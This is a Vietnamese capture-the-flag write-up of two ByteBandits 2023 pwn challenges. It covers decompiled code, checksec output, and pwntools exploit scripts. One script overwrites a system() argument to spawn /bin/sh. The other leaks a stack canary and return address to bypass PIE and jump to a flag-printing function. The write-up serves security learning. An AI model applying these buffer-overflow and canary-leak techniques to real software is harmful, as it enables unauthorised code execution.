

# ByteBandits 2023 ctf
*\* khi tớ viết wu thì giải đã kết thúc nên làm trên local vậy*
Dưới đây là phần wu của 2 bài pone :3
## Easy pwn


File zip chỉ chứa 1 file binary

    $ file ez-pwn-1
    ez-pwn-1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26217945613bd2e86e73d01ae50a82c592549ccc, not stripped

Chưa thấy gì đặc biệt. Chạy thử: 
     
    $ ./ez-pwn-1
    Hi! would you like me to ls the current directory?
    đéo
    Ok, here ya go!

    ez-pwn-1  ez_pwn.zip

Chương trình in ra 1 dòng hỏi có muốn nó `ls` thư mục hiện tại của mình ra không (đã trả lời là không rồi vẫn làm, thế mà cũng hỏi, bịp v :vv)

Ném vào `IDA`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[8]; // [rsp+8h] [rbp-28h] BYREF
  char command[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(40u);
  strcpy(command, "ls");
  puts("Hi! would you like me to ls the current directory?");
  read(0, buf, 0x18uLL);
  if ( !strcmp(buf, "no\n") )
  {
    puts("Oh, ok :(");
    exit(0);
  }
  puts("Ok, here ya go!\n");
  system(command);
  return 0;
}
```
Chương trình chỉ đơn giản là copy `ls` vào `command` rồi hỏi có muốn thực thi k, nếu no thì sẽ `exit`. Điều gì sẽ xảy ra nếu ta có thể `overwrite` được biến `command` =))

Thử run với input lớn hơn xem

    trungdo@TEFO:/mnt/c/ctf/KCSC_training/ezp1$ ./ez-pwn-1
    Hi! would you like me to ls the current directory?
    AAAAAAAAAAAAAAAAAAAAAAA
    Ok, here ya go!

    sh: 1: AAAAAAAAAAAAAAAApxc��: not found

Nhìn vào trên cũng đủ để thấy `command` mong manh như thế nào :))

    gdb-peda$ checksec
    CANARY    : ENABLED
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : ENABLED
    RELRO     : FULL

uhhhhhhhhhhhh
Canary là một biến có giá trị đặc biệt bí mật được push vào stack ngay sau saved rbp. Trước khi hàm trả về chương trình sẽ so sánh stack canary trước và sau, nếu thấy sự sai khác chương trình sẽ exit ngay lập tức. Điều này khiến bof exploit khó khăn hơn =)) 




Đây là 2 câu lệnh dùng để gán *ls* vào `command`


Tiếp theo chương trình sẽ đọc 0x18 byte vào vị trí rbp-0x28 đây là biến buf và cũng chính là nơi mà ta sẽ exploit

Khi chương trình chạy, stack sẽ trông ntn 


cách đơn giản là ta sẽ ghi đè command bằng /bin/sh là sẽ thành công. 0x28- 0x20 = 8 byte padding + /bin/sh

### Exploit
```python
from pwn import *
filename = "./ez-pwn-1"
payload = b"A"*8 #buf
payload += b"/bin/sh"
#proc = remote('pwn.bbctf.fluxus.co.in', 4001)
proc = process(filename)
proc.recvuntil(b"?")
proc.sendline(payload)
proc.interactive()

```


Vậy là coi như đã thành công rồi. Chall này khá đơn giản, không có gì nhiều để nói.
 
 
## Medium pwn


    trungdo@TEFO:/mnt/c/ctf/KCSC_training/ezp2$ file ez-pwn-2
    ez-pwn-2: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3ec9548b70338c15c57951bc02d50f1712857815, not stripped

chưa có gì hot
**Chạy thử:**


Chương trình đưa cho ta một địa chỉ, bắt ta nhập vào 1 địa chỉ rồi nó sẽ `leak` ra 8 byte của địa chỉ đó.
Nhưng mà nhìn ntn thì vẫn chưa giải quyêt đc gì, ném vào `IDA` thôi =))
**checksec** 

    gdb-peda$ checksec
    CANARY    : ENABLED
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : ENABLED
    RELRO     : FULL

Canary được bật, như tớ nói ở trên, nó sẽ làm việc bof khó khăn hơn, `NX - non excutable stack`, khi `NX` enable ta sẽ không thể dùng shellcode, `PIE - Position Independent Executable` theo như tớ tìm hiểu được nó có chức năng gần giống `ASLR -address space layout randomization`. Trong khi `ASLR` chỉ là load chương trình vào 1 vùng vùng nhớ random nào đó, còn `PIE` sẽ complile và lưu trũ tại physical memory, lúc chạy nó sẽ ánh xạ tới 1 vùng nhớ logic random nào đó trên bộ nhớ với 1 *offset* không đổi trong xuyên suốt quá trình thực thi, cái này tạo ra để đối phó với `ROP` =))

#### Source code
`main()`: 
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  puts("Hi! I am the Stack Oracle.\n");
  while ( 1 )
    gimme_pointer();
}
```
* in ra Hi! I am the Stack Oracle.
* vòng lặp while vô hạn gọi func `gimme_pointer()`

`gimme_pointer()`:

```c
unsigned __int64 gimme_pointer()
{
  const void *v1; // [rsp+8h] [rbp-28h] BYREF
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(40u);
  printf("You are here: %p\n Give me an address and I will grant you 8 leaked bytes:\n", buf);
  read(0, buf, 64uLL);
  hex_string_to_byte_array((__int64)buf, (__int64)&v1, 16);
  printf("Here are the contents of %p:\n", v1);
  print_buf((__int64)v1, 8);
  return __readfsqword(40u) ^ v3;
}
```
* đọc 64 byte vào buf trong khi buf chỉ có 24 byte -> **bof**
* in ra content của addr mà ta nhập vào
* `canary v3`
* **vulnerable function**


`hex_string_to_byte_array()`:

```c
`__int64 __fastcall hex_string_to_byte_array(__int64 a1, __int64 a2, int a3)` :
{
  __int64 result; // rax
  int v5; // [rsp+28h] [rbp-8h]
  int i; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  for ( i = 0; ; i += 2 )
  {
    result = (unsigned int)i;
    if ( i >= a3 )
      break;
    __isoc99_sscanf(i + a1, "%2hhx");
    ++v5;
  }
  return result;
}
```
* giống như tên gọi, chức năng của nó là chuyển đổi `hex` string thành 1 dãy các `byte`

`print_buf()`:

```c
int __fastcall print_buf(__int64 a1, int a2)
{
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i < a2; ++i )
    printf("%02X", *(unsigned __int8 *)(i + a1));
  return puts("\n");
}
```
* hàm này chỉ dùng để in **leak contents**

`this_function_literally_prints_the_flag()`: 

```c
unsigned __int64 this_function_literally_prints_the_flag()
{
  int fd; // [rsp+Ch] [rbp-54h]
  char buf[72]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("flag.txt", 0);
  read(fd, buf, 0x40uLL);
  puts(buf);
  close(fd);
  return __readfsqword(0x28u) ^ v3;
}
```
* chứa `flag`
* đây là func mà ta phải `return` tới

#### Analysis


Ta tập trung khai thác `vuln` đó là func `gimme_pointer()`. Bên trong func `gimme_pointer()`, `$rsp` chỉ dành ra khoảng trống có độ lớn `0x30` mà trong khi đó chương trình lại đọc tận `0x40` byte vào `buf`, chắc hẳn phải có ẩn ý gì đó chứ người bình thường ai lại làm như này :)). Và địa chỉ của `buf` là `[rbp - 0x20]`
Độ lớn mà `buf` cung cấp đủ để ta có thể **overwrite** được `return Addr`. Nhưng đâu có dễ như vậy =)) vấn đề là nếu ta **overwrite** cả biến s`tack canary` thì trước khi nhảy tới `addr` chỉ định chương trình đã `exit` rồi, chưa kể việc lấy địa chỉ gặp nhiều khó khăn do `PIE`


May thay là chương trình sẽ cung cấp cho ta một `địa chỉ`, đó chính là địa chỉ của `stack` hiện tại và cũng chính là của `buf`. Ta có thể `bypass PIE` bằng cách tính toán các độ lệch giữa các biến và giữa các func để tìm ra địa chỉ của `this_function_literally_prints_the_flag()` (do nó chỉ ánh xạ tới random logic memory nhưng khoảng cách giữa chúng vẫn giữ nguyên). Còn `canary`, thông qua *leak addr* và *offset* ta đã tính toán từ trước, ta có thể nhờ chương trình **leak contents** ra rồi push y nguyên vào là sẽ qua thôi :3. 


Trước khi thực hiện function call, chương trình sẽ lưu lại địa chỉ trả về chính là địa chỉ câu lệnh tiếp theo **main + 26**. Nói cách khác return addr của `gimme_pointer` là **0x0000555555400a21**

    gdb-peda$ p this_function_literally_prints_the_flag
    $2 = {<text variable, no debug info>} 0x5555554008f7 <this_function_literally_prints_the_flag>

Từ đây có thể tính đc **return addr** tới `this_function_literally_prints_the_flag()`: `reA = 0x400a21 - 0x4008f7 = 0x12a`. Khi tìm được *retAddr* của **gimme_pointer** thì chỉ cần trừ cho `0x12a` sẽ ra địa chỉ của `this_..._flag()`. 
Tiếp theo cần tính toán độ lệch giữa các local variable để *bypass* `canary`.

**Callee**


`Address` được `leak` khi chương trình khởi chạy chính là biến buf và cũng chính là địa chỉ hiện tại của stack. **0x20 - 0x8 = 0x18** là `offset` từ `leakAddr` tới `canary`. Giờ ta có thể tính toán được địa chỉ của `canary` rồi nhờ chương trình `leak` giá trị trong nó. **0x20** là `offset` từ `leak` tới `rbp`. **0x28** là offset của `retAddr`. Ta chú trọng vào 2 giá trị của **canary** và **retAddr** còn rbp chứa gì cũng chả ảnh hưởng :))

#### Exploit


```python
from pwn import *

stack_canary_offset = 0x18
rbp_offset = 0x20
ret_offset = 0x28
flag_offset = 0x12a

def read_leak(offset):
    proc.recvuntil(b': ')
    addr = int((proc.recvline().strip().decode()), 16) + offset
    proc.readline()
    proc.sendline((p64(addr).hex().encode())) # proc nhận hex string rồi phân tích thành mảng các byte
    proc.recvline() # ignore here are the...
    test = proc.recvline().strip().decode() # bỏ \n, chuyển về kiểu string
    change= ''
    for i in range(0,len(test),2): # vì dữ liệu đc leak ra theo dạng little endian nên phải convert cho đúng để tí còn send =))
        change = test[i:i+2] + change
    return int(change, 16) 
    # leaking value success

proc = process('./ez-pwn-2')
# find contents of all of part for exploit

canary= read_leak(stack_canary_offset)
rbp = read_leak(rbp_offset)# không cần tìm rbp này cũng đc, tớ lỡ rồi nên làm luôn =))
retAddr = read_leak(ret_offset)
new_return = retAddr - flag_offset
#24byte buff + 8byte canary + 8 byte rbp + 8 byte retAddr
payload = p64(0) * 3
payload += p64(canary)
payload += p64(rbp)
payload += p64(new_return)
proc.sendline(payload)
proc.interactive()

```

Thành công lấy được flag =)))